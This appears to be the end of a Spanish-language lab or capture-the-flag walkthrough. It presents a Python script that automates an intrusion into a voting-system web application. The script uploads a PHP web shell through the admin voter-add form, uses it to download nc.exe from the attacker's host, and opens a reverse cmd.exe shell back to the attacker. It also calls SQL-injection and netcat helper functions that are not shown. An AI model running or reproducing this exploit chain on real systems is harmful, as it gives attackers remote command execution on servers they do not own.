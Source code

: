 ```python
def uploadshell():

    payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

    files  = {'photo':('shell.php',payload)

        }

    post_data = {
            'firstname' :' lorem',
            'lastname':'lorem',
            'password':'lorem',
            'add':''
        }

    LoveVote= f'{LoveIP}/admin/voters_add.php'

    r = s.post(LoveVote, data= post_data,files=files)

    if r.status_code == 200:
            print("[+] Subida de shell existosa\n")
    else:
            print("[!] Subida de shell fallida\n")
            exit(1)


def uploadNC():
    ip = f'{LoveIP}/images/shell.php?cmd=curl {ipHost}/nc.exe -O nc.exe'
    r = s.get(ip)

def conection():
    print('\t\n\n[+] Completando proceso, revise netcat\n')
    ip = f'{LoveIP}/images/shell.php?cmd=nc.exe -e cmd.exe {ipHost} {ipPort}'
    r = s.get(ip)


if __name__ == '__main__':
    print(f'\n[+] Recuerda estar esperando conexión en netcat en el puerto {sys.argv[2]}\n\n')
    sleep(2)
    getNetcat()
    sqli()
    uploadshell()
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as so:
            so.bind(('localhost', 80))
            http_server = subprocess.Popen(["python3", "-m", "http.server", "80"])
    except OSError:
            print("\n[-] El puerto 80 se encuentra en uso, no se ha podido ejectuar el servidor")
   
    uploadNC()
    http_server.terminate()
    conection()
```    

¡Listo!, terminamos la automatización de la intrusión.

Nos vemos, hasta la próxima.
